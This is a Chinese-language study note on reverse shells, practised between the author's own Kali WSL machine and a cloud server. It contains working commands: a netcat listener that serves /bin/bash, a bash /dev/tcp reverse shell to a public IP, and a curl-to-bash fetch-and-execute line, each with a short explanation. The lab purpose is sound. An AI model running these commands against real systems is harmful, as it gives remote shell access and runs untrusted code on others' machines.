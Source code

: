 ## 反弹shell学习

> 之前了解过但是没有具体实践过，这里完成复现任务的时候，决定搞一下，记录一下
>
> 学m习采用一个本地wsl-kail 和 一台阿里云服务器，用的xshell

服务器安装netcat-由于阿里云服务器是centos

```bash
yum install nmap-ncat

#打开防火墙端口
firewall-cmd --zone=public --add-port=5432/tcp --permanent
firewall-cmd --reload
```



**nc命令开启本地监听端口**

```
nc -n -lvvp 5432 -t -e /bin/bash
```

这个命令会创建一个监听端口 5432 的 TCP 连接，当有别的机子连接到这个端口时，Netcat 会执行 `/bin/bash` 命令，提供一个 shell 环境给客户端。

![image-20240915135332508](C:/Users/lenovo/AppData/Roaming/Typora/typora-user-images/image-20240915135332508.png)

![image-20240915135433234](C:/Users/lenovo/AppData/Roaming/Typora/typora-user-images/image-20240915135433234.png)

![image-20240915135451415](C:/Users/lenovo/AppData/Roaming/Typora/typora-user-images/image-20240915135451415.png)



### Bash反弹shell

攻击机开启监听

```
nc -lvvp 5432
```
 -
目标机连接攻击机

```bash
bash -i >& /dev/tcp/8.134.206.105/5432 0>&1
```

| 命令                        | 命令详解                                                     |
| --------------------------- | ------------------------------------------------------------ |
| bash -i                     | 产生一个bash交互环境。                                       |
| >&                          | 将联合符号前面的内容与后面相结合，然后一起重定向给后者。     |
| /dev/tcp/8.134.206.105/2333 | Linux环境中所有的内容都是以文件的形式存在的，其实大家一看见这个内容就能明白，就是让目标主机与攻击机47.xxx.xxx.72的2333端口建立一个tcp连接。 |
| 0>&1                        | 将标准输入与标准输出的内容相结合，                           |

![image-20240915140239404](https://gitee.com/bx33661/image/raw/master/path/image-20240915140239404.png)

![image-20240915140221988](https://gitee.com/bx33661/image/raw/master/path/image-20240915140221988.png)



### 利用curl配合bash反弹

由于一直失败，检查了一遍问题发现，应该是阿里云安全组没有设置好

![image-20240915214250717](https://gitee.com/bx33661/image/raw/master/path/image-20240915214250717.png)

```bash
curl 8.134.206.105:5432|bash
```

![image-20240915215528282](https://gitee.com/bx33661/image/raw/master/path/image-20240915215528282.png)
